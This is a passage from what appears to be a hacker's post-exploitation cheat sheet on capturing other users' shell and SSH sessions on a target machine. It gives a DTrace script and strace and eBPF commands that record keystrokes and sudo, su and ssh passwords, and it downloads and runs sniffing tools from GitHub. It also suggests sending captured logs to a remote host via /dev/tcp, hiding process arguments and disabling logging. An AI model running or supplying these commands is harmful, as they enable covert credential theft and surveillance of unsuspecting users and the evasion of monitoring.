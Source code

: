 - Combined with zapper to hide command options from the process list.
- Requires `/usr/bin/script` from util-linux >= 2.37 (-I flag). We pull the static bin from [ajam](https://bin.ajam.dev). 
- Consider using /dev/tcp/3.13.3.7/1524 as an output file to log to a remote host.
- Log in with `ssh -o "SetEnv LC_PTY=1"` to disable logging.

<a id="dtrace"></a>
**10.ii Sniff all SHELL sessions with dtrace - FreeBSD**

Especially useful for Solaris/SunOS and FreeBSD (pfSense). It uses kernel probes to trace *all* sshd processes.

Copy this "D Script" to the target system to a file named `d`:
```c
#pragma D option quiet
inline string NAME = "sshd";
syscall::write:entry
/(arg0 >= 5) && (arg2 <= 16) && (execname == NAME)/
{ printf("%d: %s\n", pid, stringof(copyin(arg1, arg2))); }
```

Start a dtrace and log to /tmp/.log:
```sh
### Start kernel probe as background process.
(dtrace -sd >/tmp/.log &)
```

<a id="bpf"></a>
**10.iii Sniff all SHELL sessions with eBPF - Linux**

eBPF allows us to *safely* hook over 120,000 functions in the kernel. It's like a better "dtrace" but for Linux.  

```sh
curl -o bpftrace -fsSL https://github.com/iovisor/bpftrace/releases/latest/download/bpftrace
chmod 755 bpftrace
curl -o ptysnoop.bt -fsSL https://github.com/hackerschoice/bpfhacks/raw/main/ptysnoop.bt
./bpftrace -Bnone ptysnoop.bt
```
Check out our very own [eBPF tools to sniff sudo/su/ssh passwords](https://github.com/hackerschoice/bpfhacks).

<a id="ssh-sniffing-strace"></a>
**10.iv Sniff a user's outgoing SSH session with strace**
```sh
strace -e trace=read -p <PID> 2>&1 | while read x; do echo "$x" | grep '^read.*= [1-9]$' | cut -f2 -d\"; done
```
Dirty way to monitor a user who is using *ssh* to connect to another host from a computer that you control.


<a id="ssh-sniffing-wrapper"></a>
**10.v. Sniff a user's outgoing SSH session with a wrapper script**

Even dirtier method in case */proc/sys/kernel/yama/ptrace_scope* is set to 1 (strace will fail on already running SSH sessions)
